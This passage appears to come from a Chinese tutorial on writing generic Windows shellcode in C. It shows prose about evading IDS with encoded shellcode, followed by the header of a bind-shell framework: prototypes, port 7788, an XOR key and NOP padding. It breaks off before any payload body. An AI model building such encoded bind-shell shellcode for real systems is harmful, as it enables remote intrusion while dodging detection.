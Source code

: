 关于变形ShellCode躲避IDS检测，以及编码方法等需进一步研究。

5.代码

可见，用C编写ShellCode需要对代码生成及C编译器行为有更多了解。有些地方处理
起来也不是很省力。不过一旦模板写成，以后写起来或写复杂ShellCode就省力多了。
增加API时只要在相应的.dll后增加函数名称项（如果str中还没有相应的dll，增加
之）并同步更新Enum的索引即可。调用API时直接使用:

API[_APINAME](param,....param);

即可。

如果没注释掉有#define  DEBUG 1的话，下面代码编译后运行即可对ShellCode进行
调试，下面代码将弹出一个对话框，点击确定即可结束程序。that's ALL。

--------------------------------------------------------------------------
/*
            使用C语言编写通用shellcode的程序
出处：internet
修改：Hume/冷雨飘心
测试：Win2K SP4 Local

*/
#include <windows.h>
#include <stdio.h>
#include <winioctl.h>

#define  DEBUG 1

//
//函数原型
//
void     DecryptSc();
void     ShellCodes();
void     PrintSc(char *lpBuff, int buffsize);

//
//用到的部分定义
//
#define  BEGINSTRLEN    0x08    //开始字符串长度
#define  ENDSTRLEN      0x08    //结束标记字符的长度
#define  nop_CODE       0x90    //填充字符
#define  nop_LEN        0x0     //ShellCode起始的填充长度
#define  BUFFSIZE       0x20000 //输出缓冲区大小

#define  sc_PORT        7788    //绑定端口号 0x1e6c
#define  sc_BUFFSIZE    0x2000  //ShellCode缓冲区大小

#define  Enc_key        0x7A    //编码密钥

#define  MAX_Enc_Len    0x400   //加密代码的最大长度 1024足够？
#define  MAX_Sc_Len     0x2000  //hellCode的最大长度 8192足够？
#define  MAX_api_strlen 0x400   //APIstr字符串的长度
#define  API_endstr     "strend"//API结尾标记字符串
#define  API_endstrlen  0x06    //标记字符串长度

